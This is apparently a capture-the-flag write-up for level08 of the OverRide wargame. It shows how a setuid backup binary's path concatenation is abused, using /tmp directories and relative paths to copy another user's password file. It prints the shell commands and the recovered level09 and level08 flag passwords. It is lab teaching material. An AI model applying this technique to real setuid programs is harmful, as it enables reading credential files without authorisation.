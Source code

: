 ### Step 1: Decompile with Ghydra

- The source code is available in `source.c`


### Step 2: Code Analysis

- 2 functions are present :
    - A `log_wrapper` function that formats logs and writes to a filestream passed in parameters
    - The `main` that opens the log file in `./backups/.log` (r+w), then opens a path specified by `av[1]` in read mode, and finally opens the path that results from the concatenation of `./backups/` and `av[1]` to write the content of the previous file


### Step 3: Trying to Exploit

- We want the flag the opened and read then written in the backups folder

- We can test that by opening the current flag present in level08's home and confirm that it works that way

```
level08@OverRide:~$ ./level08 ".pass"
level08@OverRide:~$ ls -la backups/
total 8
drwxrwx---+ 1 level09 users    80 Nov 22 18:06 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users    66 Nov 22 18:08 .log
-r--r-----+ 1 level09 users    41 Nov 22 18:06 .pass
level08@OverRide:~$ cat backups/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

- We can then try to do the same thing with the flag present in level09's home. The binary should be able to open it with his suid

```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

The error shows that the flag was opened but the concatened path string contains an exeeding `/` character => We have to find a way to bypass to problems :
    - The concatened string must be a valid path to write the output
    - The path in `av[1]` must be a real path to the flag


### Step 4: Final Exploit


1) create symlink of the level08 binary to /tmp
`ln -s /home/users/level08/level08 /tmp/level08`

```
level08@OverRide:/tmp$ ls -la
total 0
drwxrwxrwt 4 root    root    120 Nov 23 08:49 .
drwxr-xr-x 1 root    root    220 Nov 23 08:31 ..
drwxrwxrwx 3 level08 level08 100 Nov 23 08:45 backups
drwxrwxr-x 3 level08 level08  60 Nov 23 08:33 home
lrwxrwxrwx 1 level08 level08  27 Nov 23 08:48 level08 -> /home/users/level08/level08
```


2) create a symlink for the /home folder to /tmp/home
`ln -s /home /tmp/home`

This is used to bypass the error created by the forced concatenation of `./backups/` + our path `/home/users/level09/.pass`
```
level08@OverRide:/tmp$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
This symlink will help to remove the `/` preceding `home` while preserving the path to the real flag

3) create a fake folder tree in /tmp/backup to mimic to the behaviour of the binary backup function
```
mkdir /tmp/backups /tmp/backups/home /tmp/backups/home/users /tmp/backups/home/users/level09
```
The path provided is a real path to write the backup result  

4) run level08 binary in /tmp
```
cd /tmp
./level08 home/users/level09/.pass
```
No error => the flag should be present in our `/tmp/backups/home/users/level09` folder  

5) cat the flag store in our fake backup directory
```
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```